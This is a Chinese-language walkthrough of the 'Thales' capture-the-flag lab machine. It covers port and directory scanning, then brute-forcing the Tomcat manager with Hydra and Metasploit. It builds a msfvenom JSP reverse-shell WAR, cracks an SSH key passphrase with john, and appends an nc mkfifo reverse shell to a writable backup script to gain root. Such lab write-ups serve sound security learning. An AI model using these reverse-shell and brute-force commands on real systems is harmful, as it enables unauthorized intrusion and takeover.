






# 一、侦测
## Thales
古希腊哲学家泰勒斯，古希腊七贤之一，自然哲学之父，认为世界的本源是水，其名字寓意着追究自然和追求真理的精神。
## 1.2 端口
`22`端口，服务类型`ssh`，版本为`OpenSSH 7.6p1 Ubuntu 4ubuntu0.5`，其中第一个是ssh服务软件的版本号，第二个包版本号推测，操作系统很有可能是`Ubuntu18.04 LTS`
ssh主机密钥有：
  - 2048 RSA
  - 256 ECDSA
  - 256 ED25519

`8080`端口，服务类型`http`，版本为`Apache Tomcat 9.0.52`
图标属于`Apache Tomcat`，页面标题属于`Apache Tomcat/9.0.52`

设备类型为`general purpose|router`，这里是通用设备和路由器二选一，这是因为许多路由器底层是裁剪的Linux内核，所以由于目标是Ubuntu服务器，它的网络行为和某些高性能路由器接近，同时由于这是虚拟机，虚拟化层的网络处理也会干扰指纹识别。

`OS CPE`为`cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3`

`HOP`为`1`，往返时延`0.64`ms

结果画像
|维度|数据|结论|
|---|----|----|
|操作系统|Ubuntu18.04(Linux 4.15)|偏旧的linux发行版，可能有内核漏洞|
|远程管理|OpenSSH 7.6p1|开放了SSH，如果能拿到用户名，可以尝试暴力破解或密钥登录|
|业务应用|Apache Tomecat 9.0.52|发布于2021年的java web服务器，可能有CVE|
|设备类型|General Purpose|是服务器，而非打印机或摄像头|
|地理位置|1Hop/0.64ms|在旁边(同一个局域网或本地虚拟机)|

## 1.3 HTTP
```ZSH
sudo gobuster dir -u http://192.168.203.137 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```
得到`/docs /examples /shell /manager`

```ZSH
sudo gobuster dir -u http://192.168.203.137:8080 -w /usr/share/wordlists/dirb/common.txt
```
得到`/favicon.ico /host-manager /shell`

尝试点击右边三个灰色按钮，`server status`、`manager app`、`host manager`，却发现要输入用户名和密码，因此尝试爆破

# 二、攻击
## 2.1 爆破
### 2.1.1 Hydra
```ZSH
hydra -L /usr/share/wordlists/metasploit/tomcat_mgr_default_users.txt -P /usr/share/wordlists/metasploit/tomcat_mgr_default_pass.txt -s 8080 192.168.203.137 http-get /manager/html
```
得到账户密码：tomcat;role1（但这里过多失败尝试会锁定，只能重启靶机）

### 2.1.2 msf
```zsh
msfconsole
search tomcat login
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS 192.168.203.137
exploit
```
tomcat;role1

## 2.2 反弹shell


`msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.203.129 LPORT=7777 -f war -o revshell.war`



成功反弹shell，接着升级shell界面，见[kali linux基操 4.3 升级shell界面]()

## 2.3 shell中获取信息（难）
sudo权限分析：`sudo -l`，但密码不对，因此不用这个思路

`/home/thales`中发现两个`txt`文件，其中`user.txt`密码对不上
`notes.txt`:
```
I prepared a backup script for you. The script is in this directory "/usr/local/bin/backup.sh". Good Luck.
```

得到关键文件，`/usr/local/bin/backup.sh`内容如图，其具备读写执行的权限



同时发现隐藏文件夹，其中`.ssh`含有私钥



私钥信息如下：



## 2.4 ssh私钥密码破解
把`id_rsa`和`id_rsa.pub`放到kali的thales文件夹中，接着用`ssh2john.py`脚本编译
```
/usr/share/john/ssh2john.py id_rsa > crack.txt
john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt
```

爆破获得密码：vodka06

`su thales`切换用户到thales，使用上述密码，接着可以看到user.txt的内容`a837c0b5d2a8a07225fd9905f5a0e9c4`，应该用md5解码，但要付钱，所以先不管

## 2.5 backup.sh文件利用（难）
在文件中增加反弹shell
```zsh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.203.129 6666 >/tmp/f" >> backup.sh

nc -lvvp 6666
```
原理见见[kali linux基操 4.1.6 利用有权限的文件反弹shell]()
等一会获得root权限，获得root:`3a1c85bebf8833b0ecae900fb8598b17`

# 三、总结
这里的两步反弹shell，第一步看到浏览器的靶机网页中上传文件是能想到，但第二步再次利用有权限的文件反弹shell却是没有想到，这里最关键的是两个命令
```ZSH
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.203.129 LPORT=7777 -f war -o revshell.war

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.203.129 6666 >/tmp/f" >> backup.sh
```